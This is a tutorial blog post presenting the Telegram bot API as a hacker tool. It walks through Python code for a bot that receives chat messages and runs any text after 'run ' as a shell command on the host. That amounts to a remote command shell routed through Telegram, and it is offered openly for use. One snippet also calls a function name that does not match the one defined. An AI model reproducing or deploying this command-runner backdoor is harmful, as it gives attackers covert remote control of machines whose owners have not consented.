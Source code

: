 # USING TELEGRAM FOR PYTHON
### _Telegrams' api gives hackers a new way to communicate with computers_
_Author: p-i-c-o_

## INTRO
Telegrams' api has been used for many things, for example: Chat Bots, News and Updates, Content Delivery, and much much more. However, using Python and a small computer, a hacker can create a bot that can run malicious code.
Let's create one together.

### INSTALLATION
Because there are some issues with the current pip distribution of the python-telegram-bot, we need to install version 13.13 specifically:
`pip3 install python-telegram-bot==13.13`

### USAGE
We need a bot to use, start a new chat on telegram with the BotFather, and create a new bot and get its bot token. Make sure no one gets it as it would give them access to your bot. Save your chat id and your bot token somewhere safe.

Using a simple script, we can now create a script that communicates with a chat bot. Here it is:
```
# ---------------------------------------------
token = "INSERT YOUR TOKEN HERE"
correct_chat_id = "INSERT YOUR CHAT ID HERE"

from telegram import Bot, Update
from telegram.ext import Updater, MessageHandler, filters
import os, subprocess
# ------------------ FUNCTIONS ------------------
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, text=True)
  return result.stdout

# --------------------- CODE --------------------

def echo(update: Update, context) -> None:
    message = update.message
    reply = None
    # ------------------ Predefined Responses ------------------
    if message.text == "Test 1":
      reply = "Success 1"
    # ----------------------------------------------------------
    bot = context.bot
    if reply != None:
      try:
        bot.send_message(chat_id=correct_chat_id, text=reply)
      except:
        bot.send_message(chat_id=correct_chat_id, text="⚠️ An error occured ⚠️")


if __name__ == "__main__":
    bot_token = token

    bot = Bot(token=bot_token)
    updater = Updater(bot=bot)
    dispatcher = updater.dispatcher
    echo_handler = MessageHandler(filters.Filters.text, echo)
    dispatcher.add_handler(echo_handler)
    updater.start_polling()
    updater.idle()
```
This script will simply reply "Success 1", when you send it "Test 1". Very simple. To create our own commands, use this format.
```
if message.text == <desired_input>:
  reply = <desired_response>
```
This script will only send the user something back nothing else.
To create something more dangerous, we can create a command runner, this would let us remotely run a command on the computer hosting this script.
```
if message.text[:4] == "run ":
  reply = run_command(message.text[4:])
```
It's that simple, but remember to define the `run_command()` function, heres one I use.
```
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, text=True)
  return result.stdout
```
This function will run the command with bash and simply return the command line output.
The cool thing about this command running piece of code is that it detects if the user started with "run " and runs only what is after that to prevent confusion.
